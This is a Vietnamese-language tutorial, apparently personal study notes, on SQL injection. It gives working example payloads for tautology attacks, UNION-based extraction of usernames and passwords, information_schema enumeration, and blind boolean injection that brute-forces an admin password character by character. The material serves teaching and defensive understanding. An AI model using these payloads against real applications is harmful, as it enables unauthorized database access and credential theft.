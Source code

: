 # SQL INJECTION
### 1.SQL Injection là gì?
+ SQL Injection là một kỹ thuật tấn công cho phép kẻ tấn công chèn mã SQL vào dữ liệu gửi đến máy chủ.
+ Cuối cùng được thực thi mã trên máy chủ cơ sở dữ liệu
### 2.Nguyên nhân chính của lỗ hổng SQL Injection là gì?
+ Do dữ liệu đầu vào từ người dùng không được kiểm tra kỹ lưỡng
+ Sử dụng các câu lệnh SQL động,thao tác nối dữ liệu người dùng với mã lệnh SQL gốc
### 3.Các dạng tấn công SQL Injection:
#### 1.Retrieving hidden data: 
##### Có thể sửa câu truy vấn để trả về kết quả bổ sung
Ví dụ : input đầu vào là @query = 'john'
Ở đây câu truy vấn sẽ SELECT đến bảng users để lấy dữ liệu có username = 'john'
```Mysql
SELECT * FROM users WHERE username = @query;
```
Nhưng ở đây chúng ta không biết trong bảng users có những username nào.Vì thế chúng ta cần sửa lại input đầu vào để câu truy vấn luôn đúng.@query = 'john' or 1 = 1 --  
```MySQL
SELECT * FROM users WHERE username = 'john' or 1 = 1 -- ;
```
Kết quả trả về sẽ là tất cả dữ liệu của bảng users
#### 2.Retrieving data from other database tables: 
##### Kiểu tấn công này liên quan đến sử dụng UNION để kết hợp 2 hay nhiều câu lệnh SELECT.
Để câu truy vấn UNION hoạt động thì phải đáp ứng được 2 yêu cầu:

+ Các câu truy vấn riêng phải cùng có số cột.
+ Các kiểu dữ liệu trong mỗi cột phải tương thích với nhau.

Ví dụ : input đầu vào là @query = '123'
```MySQL
SELECT name,type FROM category WHERE id = @query;
```
Ở đây mình muốn lấy username,password từ bảng `users`,mình cần check trước là số lượng cột ở câu truy vấn trước.@query có thể:
```MySQL
'123' UNION SELECT NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL,NULL--
etc.
```
Ở đây mình dùng `NULL` vì nó có thể chuyển đổi thành mọi kiểu dữ liệu.Mình sẽ thử lần lượt các câu query cho đến khi server không báo lỗi.
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT NULL,NULL--;
```
Bây giờ mình cần kiểm tra dữ liệu của từng cột.@query có thể:
```MySQL
'123' UNION SELECT 'x',NULL--
'123' UNION SELECT NULL,'x'--
'123' UNION SELECT 'x','y'--
etc.
```
Sau khi xác định được kiểu dữ liệu thì bây giờ mình cần truy vấn lấy dữ liệu ở bảng `users`
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT username,password FROM users--;
```
#### 3.Examining the database:
##### Kiểu tấn công này sẽ lấy được phiên bản và cấu trúc cơ sở dữ liệu
Truy vấn đến `information_schema.tables` để liệt kê các bảng trong cơ sở dữ liệu
```MySQL
SELECT * FROM information_schema.tables
```
Sau đó chúng ta có thể truy vấn `information_schema.columns`để xem các cột dữ liệu của chúng
```MySQL
SELECT * FROM information_schema.columns WHERE table_name='users'
```
Cuối cùng ta có thể truy vẫn đến từng giá trị của bảng
```MySQL
SELECT user_abcd,pasword_efgh FROM users
```
Mình thấy hay kết hợp với câu truy vấn `UNION`
#### 4.Bind SQL Injection:
##### Kiểu tấn công này sẽ không trả về kết quả của câu truy vấn đưa vào
Ví dụ:
```MySQL
SELECT * FROM users WHERE username=@query;
-- Nếu câu truy vấn đúng sẽ in ra giao diện "successfully"
-- Ngược lại sẽ không in gì
```
Bây giờ mình thử xâm nhập:
```MySQL
SELECT * FROM users WHERE username='admin';
-- hiện thị "successfully"
SELECT * FROM users WHERE username='admin' AND 1 = 2;
-- không hiện thị
SELECT * FROM users WHERE username='admin' AND 1=1;
-- hiện thị "successfully"
```
Gỉa sử mình biết trong cơ sở dữ liệu có bảng `users` và có username = 'admin',mình cần tìm ra password.
Ban đầu mình cần tìm ra độ dài của password @length = 1:
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select 'pwd' from users where username = 'admin' AND LENGTH(password)>@length)='pwd';
-- hiện thị "successfully"
```
Mình cần tăng @length đến khi nào không hiện thị `successfully`,giả sử length =10 bây giờ mình cần tìm password bằng cách cắt và so sánh từng kí tự 1.
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,1,1) from users where username = 'admin')='a';
-- không hiện thị
-- Chỗ này mình cần thay đổi giá trị 'a' đến khi hiện thị
```
Mình dùng `Bruteforce` để gửi các payload.Ở đây có 2 payload là vị trí của từng ký tự và payload để so sánh (a,b) 
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,$a$,1) from users where username = 'admin')='$b$';
```
Chạy xong sẽ tìm được password!
